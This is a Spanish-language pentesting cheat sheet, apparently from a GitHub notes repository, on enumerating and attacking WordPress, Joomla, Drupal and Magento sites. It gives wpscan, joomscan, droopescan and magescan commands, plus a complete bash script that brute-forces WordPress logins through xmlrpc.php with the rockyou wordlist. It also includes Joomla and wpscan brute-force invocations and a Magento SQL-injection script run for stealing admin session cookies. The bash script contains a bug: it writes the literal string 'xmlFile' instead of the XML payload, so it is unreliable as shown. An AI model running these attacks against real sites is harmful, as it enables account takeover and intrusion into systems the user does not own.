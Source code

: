 # Wordpress

## Enumeration

>/wp-admin --> Donde puedes iniciar sesión como admin en WP, si este panel de inicio de sesión está expuesto es una vulnerabilidad crítica.

>El mensaje de error en login puede chivarte posibles usernames existentes porque te dirá que x username no existe al probar y si existe te dirá que la contraseña no es correcta pal usuario x existente.
### WPscan

>Uso de wpscan para enumerar usuarios, plugins, temas, etc, en una url que tenga como gestor wordpress:

```bash
wpscan --url http://IP:port
```

>Cosas que se pueden enumerar con wpscan:

```bash
wpscan --url URL -e vp,u --plugins-detection aggressive
```

> Posibles enumeraciones con el parámetro -e:

| Parámetro: | Uso:               |
| ---------- | ------------------ |
| vp         | Vulnerable plugins |
| ap         | All plugins        |
| p          | Popular plugins    |
| vt         | Vulnerable themes  |
| at         | All themes         |
| t          | Popular themes     |
| tt         | Timthumbs          |
| cb         | Config backups     |
| dbe        | Db exports         |
| u          | User IDs range     |
| m          | Media IDs range    |
>Parámetros incompatibles, solo puede usarse uno de los 3:

```bash
vp, ap, p
vt, at, t
```

>Para ver vulnerabilidades:

>Ir a wpscan.com y loguearse
>Ir a la sección profile y obtener el api token
>Usar el api token en las consultas wpscan:

```bash
wpscan --url URL -e vp --api-token="TOKEN"
```

>Ruta donde se encuentran los plugins en un WP:

```
IP:port/wp-content/plugins/
```

>Ver si hay plugins en el codigo fuente:

```bash
curl -s -X GET "http://IP:port" | grep plugins
```

>Verlos más cómodo:

```bash
curl -s -X GET "http://IP:puerto" | grep -oP 'plugins/\K[^/]+' | sort -u
```
## Common exploits

### Fuerza bruta de credenciales

>Creación de un script en bash para realizar fuerza bruta sobre **xmlrpc.php**:

```bash
nano xmlrpc_bruteforce.sh
```

>Usaremos el diccionario rockyou.txt:

```bash
#!/bin/bash

function ctrl_c(){
	echo -e "\n\n[!] Saliendo...\n"
	exit 1
}

# Ctrl+C
trap ctrl_c SIGINT

function createXML(){
	password=$1

	xmlFile="""
<?xml version=\"1.0\" encoding=\"UTF-8\"?>
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>usuario</value></param>
<param><value>$password</value></param>
</params>
</methodCall>"""

	echo "xmlFile" > file.xml

	response=$(curl -s -X POST "http://IP:puerto/ruta/xmlrpc.php" -d@file.xml)

	if [ ! "$(echo $response | grep 'Incorrect username or password.')" ]; then
		echo -e "\n[+] La contraseña para el usuario usuario es $password"
		exit 0
	fi
}

cat /usr/share/wordlists/rockyou.txt | while read password; do
	createXML $password
done
```

>Uso:

```bash
chmod +x xmlrpc_bruteforce.sh
./xmlrpc_bruteforce.sh
```

### WPscan Brute Force

>Uso de wpscan para hacer fuerza bruta:

```bash
wpscan --url http://IP:puerto -U usuarioAForzar -P diccionario
```

# Joomla

## Enumeration

### Joomscan

#### Instalación

```bash
git clone https://github.com/rezasp/joomscan.git
```
#### Uso

```bash
perl joomscan.pl -u URL
```
## Common exploits

### Brute-Force

>[script](https://github.com/ajnik/joomla-bruteforce)

>Uso:

```
sudo python3 joomla-brute.py -u http://joomla-site.local/ -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
 
admin:admin
```
# Drupal

## Enumeration

### Droopescan

#### Instalación:

```bash
git clone https://github.com/SamJoan/droopescan
python3 setup.py install
pip3 install -r requirements.txt
```

#### Uso

```bash
droopescan scan drupal --url http://IP:port
```


## Common exploits

### Un RCE en Drupal:

![image](https://github.com/user-attachments/assets/3eba66b5-5793-4b9d-8759-72998ba4fa4d)

# Magento

## Enumeration

>Herramientas para enumerar magento:

**magescan**

### Instalación magescan

>Hacer un git clone del proyecto.
>Instalar una release de magescan.phar: https://github.com/steverobbins/magescan/releases

### Uso magescan

>Ejecutarlo con php:

```bash
php magescan.phar
```

>Uso para escanear todo el magento de un servidor web, poner la url en la que se encuentre el magento:

```bash
php magescan.phar scan:all http://IP:puerto
```

## Common exploits

### SQLi para obtener cookies de sesión

>Uso de un script python que hace una sqli en la página con magento:

```bash
python3 magento-sqli.py http://IP:port
```

>La vulnerabilidad consiste en que hace fuerza bruta para pillar la cookie de inicio de sesión del administrador, debe estar logueado el admin.
